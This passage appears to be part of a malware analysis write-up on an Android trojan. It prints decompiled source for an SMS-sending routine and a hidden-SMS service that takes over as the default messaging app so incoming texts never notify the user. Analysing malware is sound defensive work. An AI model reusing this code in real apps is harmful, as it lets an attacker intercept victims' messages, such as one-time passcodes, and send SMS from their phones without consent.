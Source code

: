 ```cs
                    this.sendMSG(s1, this.message);
                    ++v;
                    continue;
                    this.Tools.Log(this.ctx, "[SMSSender] Sending SMS: " + this.message + " to " + this.phoneNumbers, Boolean.valueOf(false));
                    this.sendMSG(this.phoneNumbers, this.message);
                    return;
                }
            }
        }
        catch(Exception unused_ex) {
            return;
        }
    }

    private void sendMSG(String s, String s1) {
        try {
            SmsManager smsManager0 = SmsManager.getDefault();
            smsManager0.sendMultipartTextMessage(s, null, smsManager0.divideMessage(s1), null, null);
            this.Tools.Log(this.ctx, "[SMSSender] Sending SMS: " + s1 + " to " + s, Boolean.valueOf(false));
        }
        catch(Exception unused_ex) {
        }
    }

```

# Hide SMSs

The malware will hide SMSs by enabling the malware to be the default messaging app. When the an SMS comes, the malware will receive the SMS and the malware won't push a notification to the user's device. 

```cs
protected void onHandleIntent(Intent intent0) {
        Utils.doWait(1000L);
        Boolean boolean0 = Boolean.valueOf(true);
        if(!Utils.checkAccess(this)) {
            this.Tools.Log(this, "[ServiceHiddenSMS] Accessibility not running.", boolean0);
            this.store.set(this, "ENABLE_HIDDEN_SMS", "false");
            this.stopSelf();
            return;
        }

        if(!Utils.hasThisPermission(this, "sms")) {
            this.Tools.Log(this, "[ServiceHiddenSMS] No permissions", boolean0);
            this.store.set(this, "ENABLE_HIDDEN_SMS", "false");
            this.stopSelf();
            return;
        }

        ServiceHiddenSMS.isRunning = true;
        try {
            Bundle bundle0 = intent0.getExtras();
            if(bundle0 != null && !bundle0.getBoolean("HIDDEN")) {
                this.setOurAppAsHidden = false;
            }
        }
        catch(Exception unused_ex) {
            return;
        }
```